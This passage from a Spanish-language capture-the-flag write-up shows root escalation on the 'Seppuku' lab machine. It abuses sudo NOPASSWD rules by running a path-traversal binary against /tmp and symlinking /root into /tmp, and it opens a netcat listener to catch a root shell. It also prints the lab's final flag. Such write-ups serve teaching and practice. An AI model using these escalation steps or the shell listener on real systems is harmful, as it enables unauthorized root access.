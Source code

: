 Por lo que hacemos lo siguiente teniendo todo esto...

```shell
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

```shell
nc -lvnp <PORT>
```

Y con esto ya seriamos `root`, leemos la flag...

> root.txt (flag\_final)

```
{SunCSR_Seppuku_2020_X}
```

\=======================================================

### 2º forma escala de privilegios

En el usuario `sepuku` teniendo los permisos de `sudo -l`...

```
Matching Defaults entries for seppuku on seppuku:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User seppuku may run the following commands on seppuku:
    (ALL) NOPASSWD: /usr/bin/ln -sf /root/ /tmp/
```

Por lo que haremos lo siguiente...

```shell
sudo ln -sf /root/ /tmp/
```

En el usuario `samurai` si le hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for samurai on seppuku:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User samurai may run the following commands on seppuku:
    (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

Creamos un archivo "inutil" en `/tmp` que luego veremos por que... `(OPCIONAL)`

```shell
nano script.sh

#Dentro de nano
#!/bin/bash

echo 'HOLA'
```
